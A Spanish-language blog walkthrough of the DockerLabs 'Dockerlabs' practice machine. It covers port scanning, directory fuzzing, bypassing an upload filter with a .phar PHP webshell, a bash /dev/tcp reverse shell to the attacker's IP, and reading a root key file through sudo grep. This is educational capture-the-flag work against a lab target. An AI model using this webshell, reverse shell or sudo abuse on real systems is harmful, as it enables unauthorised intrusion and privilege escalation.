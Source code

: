 ```yaml
---
layout: post
title: "Dockerlabs"
date: 2024-10-07
 12:40:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Dockerlabs </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubriendo puertos de la maquina objetivo, tenemos funcionando el servicio apache.

`sudo nmap -p- -T5 --min-rate=5000 --open -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/dockerlabs/nmap.png){:.margin}

**2\.** No encontramos nada importante en la web.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/dockerlabs/80.png){:.margin}

**3\.** Realizamos un poco de fuzzing y encontramos dos ficheros .php.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/dockerlabs/gobuster.png){:.margin}

**4\.** Revisamos estas paginas, en el fichero machine.php tenemos una subida de archivos.

`http://172.17.0.2/machine.php`

![img](/notas/public/img/dockerlabs/dockerlabs/80machine.png){:.margin}

**5\.** Creamos nuestro archivo para obtener una webshell, intentamos subir el archivo pero no nos permite.

`nano shell.php`

`<?php system($_GET['cmd']);?>`

![img](/notas/public/img/dockerlabs/dockerlabs/nanoshell.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/errorupload.png){:.margin}

**6\.** Probando con extensiones variantes de php logro subir el fichero con extension .phar, nuestro fichero lo encontramos en el directorio uploads.

`http://172.17.0.2/uploads/shell.phar`

![img](/notas/public/img/dockerlabs/dockerlabs/okupload.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/fileshell.png){:.margin}

**7\.** Nos ponemos en escucha con nc y nos enviamos una reverse shell; ya tenemos acceso a la maquina.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.phar?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/dockerlabs/nc.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/ncok.png){:.margin}

**8\.** En este punto reviso los privilegios sudo del usuario y encuentro dos binarios, ademas de que encuentro una nota en opt.

`sudo -l`

`cat /opt/nota.txt`

![img](/notas/public/img/dockerlabs/dockerlabs/sudol.png){:.margin}
![img](/notas/public/img/dockerlabs/dockerlabs/nota.png){:.margin}

**9\.** Ambos binarios nos sirve para poder obtener el contenido de un fichero, nos podemos ayudar con gtfobins para el uso de [grep](https://gtfobins.github.io/gtfobins/grep/#sudo) o [cut](https://gtfobins.github.io/gtfobins/cut/#sudo).

`sudo /usr/bin/grep '' /root/clave.txt`

![img](/notas/public/img/dockerlabs/dockerlabs/clave.png){:.margin}

**10\.** Ya con la clave en mano solo nos queda migrar al usuario root.

`su root`

![img](/notas/public/img/dockerlabs/dockerlabs/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>